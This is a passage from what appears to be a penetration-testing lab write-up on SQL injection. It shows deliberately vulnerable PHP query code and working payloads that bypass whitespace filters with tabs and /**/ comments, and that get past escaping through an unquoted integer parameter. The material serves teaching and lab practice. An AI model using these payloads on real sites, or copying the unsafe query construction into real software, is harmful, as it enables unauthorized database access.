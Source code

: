 
Basically, the space characters are being filtered out. However, we can achieve the same results by using tabs (<code>\t</code>), which would change the previous injection to: <code>SELECT * FROM users where name='root'	or	1=1#</code>, where the same outcome is achieved by substituting the spaces for tabs and the comment characters from <code>-- </code> to <code>#</code>. Again, don't forget URL encoding though!

**Example3**

Same-looking page, but slightly different code:


``` php
if (preg_match('/\s+/', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";

	$result = mysql_query($sql);
```


This time, a regular expression prevents the use of any whitespace characters, including tabs, carriage returns, etc. It is possible to bypass this by using [C-style comments](http://www.sqlinjection.net/comments/): <code>/**/</code>. Here, our injection would be:


``` plain
'/**/or/**/1=1#
```


And the DB query would look like this:


``` sql
SELECT * FROM users where name='root'/**/or/**/1=1#'
```


As always, don't forget to URL encode when injecting! 

**Example4**

Here, the URL looks just a tiny bit different: http://192.168.217.138/sqli/example4.php?id=2

And the code:


``` php
$sql="SELECT * FROM users where id=";
	$sql.=mysql_real_escape_string($_GET["id"])." ";
	$result = mysql_query($sql);
```


So, the query performed is <code>SELECT * FROM users where id=INPUT </code>, but this time, the <code>mysql_real_escape_string</code> function is used to escape the characters: <code>\x00, \n, \r, \, ', " and \x1a</code>. All that protection is for naught however, because the id parameter is an integer, where there is no need to use quotes. So I injected <code>2 or 1=1-- </code> and again saw all results.
